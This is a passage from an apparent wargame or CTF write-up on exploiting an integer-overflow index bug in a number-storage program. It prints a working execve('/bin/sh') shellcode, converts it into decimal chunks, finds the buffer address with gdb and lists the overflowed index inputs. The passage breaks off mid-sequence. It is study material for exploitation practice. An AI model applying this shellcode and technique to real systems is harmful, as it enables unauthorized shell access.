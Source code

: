 We have successfully exploited the overflow now we can overwrite the `main`'s return address, next we have to craft a `shellcode` and insert it in the program's memory

Because we can only insert `unsigned int` into the storage we will have insert the shellcode 4 bytes by 4 bytes so let's craft a shellcode that has 4*n bytes

Here is the same simple shellcode we used before which only performs `execve("/bin/sh")` and is 28 bytes long

```
\x90\x31\xc0\x31\xc9\x31\xd2\x31\xff\x31\xf6\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
```

We have to divide it into 4 bytes parts convert them in little endian and convert it into a decimal number

```
\x90\x31\xc0\x31 -> 31c03190 -> 834679184
\xc9\x31\xd2\x31 -> 31d231c9 -> 835858889
\xff\x31\xf6\x52 -> 52f631ff -> 1391866367
\x68\x2f\x2f\x73 -> 732f2f68 -> 1932472168
\x68\x68\x2f\x62 -> 622f6868 -> 1647274088
\x69\x6e\x89\xe3 -> e3896e69 -> 3817434729
\xb0\x0b\xcd\x80 -> 80cd0bb0 -> 2160921520
```

Now we have to find the starting address of the buffer using `gdb`

```
	0x080488e7 <+452>:   mov    %eax,(%esp)
	0x080488ea <+455>:   call   0x8048630 <store_number>
```

We can see the buffer address is moved from eax to esp

Let's set a breakpoint and read the registers

```
(gdb) b*0x080488ea
Breakpoint 1 at 0x80488ea
(gdb) r
Input command: store

Breakpoint 1, 0x080488ea in main ()
(gdb) info reg
eax		0xffffd554		-10924
```

The buffer address seems to be `0xffffd554` let's insert our shellcode and inspect the address to confim that the insertion was successfull

We have to use the overflow trick to insert a value every 3 index:

```
Number: 834679184
Index: 1073741824 (1073741824 + 0 = index 0)

Number: 835858889
Index: 1

Number: 1391866367
Index: 2

Number: 1932472168
Index: 1073741827 (1073741824 + 3 = index 3)

Number: 1647274088
Index: 4

Number: 3817434729
```